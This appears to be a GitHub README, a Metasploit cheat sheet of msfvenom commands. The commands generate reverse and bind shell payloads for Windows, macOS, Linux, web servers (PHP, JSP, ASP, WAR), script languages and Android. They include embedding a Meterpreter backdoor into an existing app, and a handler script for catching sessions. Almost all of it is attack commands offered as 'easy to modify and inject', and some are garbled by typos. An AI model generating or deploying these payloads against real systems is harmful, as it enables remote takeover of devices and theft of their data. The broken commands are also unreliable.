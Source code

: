 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Reverse Shell
<pre>$ msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Encoded Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </pre>

Windows Meterpreter Reverse Shellcode
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

macOS Payloads
macOS Bind Shell
<pre>$ msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </pre>

macOS Reverse Shell
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </pre>

macOS Reverse TCP Shellcode
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind TCP Shell
<pre>$ msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind Meterpreter TCP Shell
<pre>$ msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Meterpreter Reverse Shellcode
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre>$ msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </pre>

JSP Java Meterpreter Reverse Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </pre>

ASP Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </pre>

WAR Reverse TCP Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre>$ msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </pre>

Bash Unix Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </pre>

Python Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </pre>

Android Payloads
Android Meterpreter reverse Payload
<pre>$ msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </pre>

Android Embed Meterpreter Payload
<pre>$ msfvenom -x yourapp.apk android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk </pre>

#Save AS explort.rc
Run command 


<pre>
# msfconsole -q -r 'export.rc'
use exploit/multi/handler
set PAYLOAD Payload name
set LHOST *********
set LPORT *******
set ExitOnSession false
set EnableStageEncoding true
run -j
</pre>

..........................................<a href="https://uk2blogger.blogspot.com/2021/03/best-way-to-generate-metasploit.html">read more</a>



